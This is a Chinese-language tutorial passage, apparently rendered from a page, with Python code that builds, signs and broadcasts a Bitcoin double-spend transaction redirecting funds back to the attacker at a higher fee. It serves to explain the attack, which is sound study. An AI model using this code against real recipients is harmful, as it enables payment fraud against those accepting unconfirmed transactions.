 # 创建双重花费交易

可双重花费的交易是具有与第一笔交易相同价值但收件人地址不同的交易。通过将整个资金退还给攻击者来撤销资金转移。除了携带找零的交易输出之外，所有交易输出都从交易中移除。由于找零交易输出寄向攻击者，因此整个资金价值被分配给此输出交易。

与之前相同的过程用于计算整个交易的费用。在计算交易费用时，使用更高的每字节交易费，即`feeperbyte2`：

```
tx.vout = tx.vout[0:1] 
change_txout = tx.vout[0] 
value_out = value_in 
change_txout.nValue = value_out 

while (value_in - value_out) / len(tx.serialize()) < feeperbyte2: 
    delta_fee = math.ceil((feeperbyte2 * len(tx.serialize())) - (value_in - value_out)) 

    if change_txout.nValue - delta_fee > dust_amount: 
        change_txout.nValue -= delta_fee 
        value_out -= delta_fee 

    if value_in - value_out < 0: 
        new_outpoint = unspent[-1]['outpoint'] 
        new_amount = unspent[-1]['amount'] 
        unspent = unspent[:-1] 

        print('Adding new input %s:%d with value %s BTC' % \
         (b2lx(new_outpoint.hash), new_outpoint.n,
         str_money_value(new_amount))) 

        new_txin = CMutableTxIn(new_outpoint, nSequence=tx2_nSequence) 
        tx.vin.append(new_txin) 

        value_in += new_amount 
        change_txout.nValue += new_amount 
        value_out += new_amount 

        r = rpc.signrawtransaction(tx) 
        assert(r['complete']) 
        tx.vin[-1].scriptSig = r['tx'].vin[-1].scriptSig 
```

一旦将所有交易输入添加到交易中，交易将被签名并广播到网络：

```
r = rpc.signrawtransaction(tx) 
assert(r['complete']) 
tx = r['tx'] 

print('Double-spend raw transaction %s' % b2x(tx.serialize())) 
print('Double-spend raw transaction size: %.3f KB, fees: %s, %s BTC/KB' % \ 
            (len(tx.serialize()) / 1000,
              str_money_value(value_in-value_out),
              str_money_value((value_in-value_out) / len(tx.serialize()) * 1000))) 

txid = rpc.sendrawtransaction(tx) 
print('Sent double-spend txid: %s' % b2lx(txid)) 
```
